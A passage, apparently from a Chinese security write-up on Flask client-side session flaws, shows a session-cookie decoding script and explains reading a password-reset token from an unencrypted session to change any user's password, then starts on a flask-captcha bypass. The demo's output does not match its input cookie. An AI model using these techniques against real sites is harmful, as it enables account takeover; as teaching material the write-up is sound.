 ```py
                         'an exception')

    if decompress:
        try:
            payload = zlib.decompress(payload)
        except Exception as e:
            raise Exception('Could not zlib decompress the payload before '
                             'decoding the payload')

    return session_json_serializer.loads(payload)

if __name__ == '__main__':
    print(decryption(sys.argv[1].encode()))
```

解密演示的session：

```bash
$ python decryption.py "eyJ1c2VybmFtZSI6ImhlaGUifQ.XApTkw.zcIUPrpo71h_doQs_GKtDlLesP8"
{'admin':True}
```

通过解密目标站点的session，发现其设置了一个名为token、值是一串md5的键。
- 猜测其为找回密码的认证，将其替换到找回密码链接的token中，果然能够进入修改密码页面。
- 通过这个过程就能修改任意用户密码了。

这是一个比较典型的安全问题，目标网站通过session来储存随机token并认证用户是否真的在邮箱收到了这个token。

但因为flask的session是存储在cookie中且仅签名而未加密，所以就可以直接读取这个token了。


---

## 0x04 flask验证码绕过漏洞
这是客户端session的另一个常见漏洞场景。

[code](https://github.com/shonenada/flask-captcha),
- 这是一个为flask提供验证码的项目
- 其中的view文件：

```py
import random
try:
    from cStringIO import StringIO
except ImportError:
    from io import BytesIO as StringIO

from flask import Blueprint, make_response, current_app, session
from wheezy.captcha.image import captcha
from wheezy.captcha.image import background
from wheezy.captcha.image import curve
from wheezy.captcha.image import noise
from wheezy.captcha.image import smooth
from wheezy.captcha.image import text
from wheezy.captcha.image import offset
from wheezy.captcha.image import rotate
from wheezy.captcha.image import warp

captcha_bp = Blueprint('captcha', __name__)

def sample_chars():
    characters = current_app.config['CAPTCHA_CHARACTERS']
    char_length = current_app.config['CAPTCHA_CHARS_LENGTH']
    captcha_code = random.sample(characters, char_length)
    return captcha_code

@captcha_bp.route('/captcha', endpoint="captcha")
```